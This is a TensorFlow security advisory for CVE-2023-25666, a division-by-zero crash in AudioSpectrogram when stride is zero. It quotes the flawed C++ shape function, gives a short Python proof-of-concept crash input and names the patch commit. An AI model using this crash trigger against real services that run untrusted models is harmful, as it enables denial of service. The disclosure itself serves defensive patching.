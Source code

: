 ## TFSA-2023-178: FPE in AudioSpectrogram 

### CVE Number
CVE-2023-25666

### Impact
version:2.11.0 audio_ops.cc:70

Status SpectrogramShapeFn(InferenceContext* c) { ShapeHandle input; TF_RETURN_IF_ERROR(c->WithRank(c->input(0), 2, &input)); int32_t window_size; TF_RETURN_IF_ERROR(c->GetAttr("window_size", &window_size)); int32_t stride; TF_RETURN_IF_ERROR(c->GetAttr("stride", &stride)); .....[1]

DimensionHandle input_length = c->Dim(input, 0); DimensionHandle input_channels = c->Dim(input, 1);

DimensionHandle output_length; if (!c->ValueKnown(input_length)) { output_length = c->UnknownDim(); } else { const int64_t input_length_value = c->Value(input_length); const int64_t length_minus_window = (input_length_value - window_size); int64_t output_length_value; if (length_minus_window < 0) { output_length_value = 0; } else { output_length_value = 1 + (length_minus_window / stride); .....[2] } output_length = c->MakeDim(output_length_value); }

Get the value of stride at [1], and the used at [2]
```python
import tensorflow as tf

para = {'input': tf.constant([[14.], [24.]], dtype=tf.float32), 'window_size': 1, 'stride': 0, 'magnitude_squared': False}
func = tf.raw_ops.AudioSpectrogram

@tf.function(jit_compile=True)
def fuzz_jit():
   y = func(**para)
   return y

fuzz_jit()
```

### Patches
We have patched the issue in GitHub commit [d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14](https://github.com/tensorflow/tensorflow/commit/d0d4e779da0d0f56499c6fa5ba09f0a576cc6b14).

The fix will be included in TensorFlow 2.12.0. We will also cherrypick this commit on TensorFlow 2.11.1


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by r3pwnx






